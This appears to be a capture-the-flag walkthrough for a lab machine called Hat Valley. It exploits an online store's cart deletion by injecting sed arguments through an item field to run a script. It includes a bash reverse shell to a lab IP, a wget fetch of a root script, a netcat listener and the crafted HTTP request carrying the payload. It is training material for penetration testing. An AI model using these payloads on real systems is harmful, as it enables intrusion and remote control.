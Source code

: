 ```php
            foreach($details as $cart_item) {
                 $cart_items = explode("&", $cart_item);
                 for($x = 0; $x < count($cart_items); $x++) {
                      $cart_items[$x] = explode("=", $cart_items[$x]); //key and value as separate values in subarray
                 }
                 $html .= "<tr><td>{$cart_items[1][1]}</td><td>{$cart_items[2][1]}</td><td>{$cart_items[3][1]}</td><td><button data-id={$cart_items[0][1]} onclick=\"removeFromCart(this, localStorage.getItem('user'))\" class='remove-item'>Remove</button></td></tr>";
            }
        }
    }
    echo $html;
    exit;
}

?>
```

- So the "delete from cart" part of the code uses a bash command `sed`. This is what we need to try to play with.

- `wget http://10.10.14.10/getroot.sh`
- `chmod +x getroot.sh`
- In the app we add a dog hat in our cart
- So in the folder cart we need to create a file with this inside

```bash
***Hat Valley Cart***
item_id=1' -e "1e /tmp/getshell.sh" /tmp/getshell.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
```

- Your getshell file should look like this and should be in /tmp

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.10/4444 0>&1
```

- In cart you need to delete the file `b618-64f1-5be-30b7` and then rename the file you created with the name of the file you just deleted. (we can not modify the file right away so that is why all this hassle...)
- Now you will need to set a listener `rlwrap nc -lvp 4444`
- Go to back to the application an click on cart to view your cart
- Go to burp put your intercept on
- Click delete in the cart next to the item and modify the request as follow

```html
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 94
Origin: http://store.hat-valley.htb
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close
Referer: http://store.hat-valley.htb/cart.php

item=1'+-e+"1e+/tmp/getshell.sh"+/tmp/getshell.sh+'&user=b618-64f1-5be-30b7&action=delete_item
```
